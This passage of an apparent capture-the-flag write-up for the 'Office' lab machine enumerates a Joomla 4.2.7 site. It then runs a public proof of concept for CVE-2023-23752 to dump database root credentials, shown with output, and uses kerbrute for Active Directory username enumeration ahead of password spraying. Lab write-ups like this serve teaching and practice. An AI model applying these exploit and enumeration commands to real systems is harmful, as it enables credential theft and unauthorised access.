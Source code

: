 ```markdown
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
Navigate to http://office.htb/administrator, a Joomla CMS login page comes into view.

![office Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/c8a21a01-8c17-41c8-b274-1bd1132c8c8e)

Investigate ways to pentest Joomla here: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla<br>
<br>
They explain how to enumerate the current Joomla version. Vy navigating to http://office.htb/administrator/manifests/files/joomla.xml you can verify the running version is 4.2.7.

![office Untitled2](https://github.com/g1vi/AllTheWriteUps/assets/120142960/176158c1-35d9-4843-9061-e4d492468d81)

At this point we have everything we need to start the exploitation phase. In summary, we have found an Active Directory domain controller running a website made with Joomla CMS 4.2.7.

### USER
Searching for Joomla 4.2.7 vulnerabilities, we come across this one: https://www.cvedetails.com/cve/CVE-2023-23752. And this POC allows to dump MySQL secrets from Joomla websites: https://github.com/0xNahim/CVE-2023-23752<br>
<br>
Run the exploit against the host and retrieve MySQL root credentials.
```markdown
> python3 exploit.py -u http://office.htb

[474] Tony Stark (Administrator) - Administrator@holography.htb - Super Users
Site info
Sitename:Holography Industries
Editor: tinymce
Captcha: 0
Access: 1
Debug status: False

Database info
DB type: mysqli
DB host: localhost
DB user: root
DB password: H0lOgrams4reTakIng0Ver754!
DB name: joomla_db
DB prefix: if2tx_
DB encryption: 0
```
We have a password, now we need a list of usernames to spray it. For this, launch a `kerbrute` attack.
```markdown
> kerbrute userenum --dc office.htb -d office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
After a while, a list of usernames is dumped by the tool.
```markdown
administrator@office.htb
Administrator@office.htb
etower@office.htb
ewhite@office.htb
dwolfe@office.htb
dlanor@office.htb
dmichael@office.htb
hhogan@office.htb
DWOLFE@office.htb
DLANOR@office.htb
```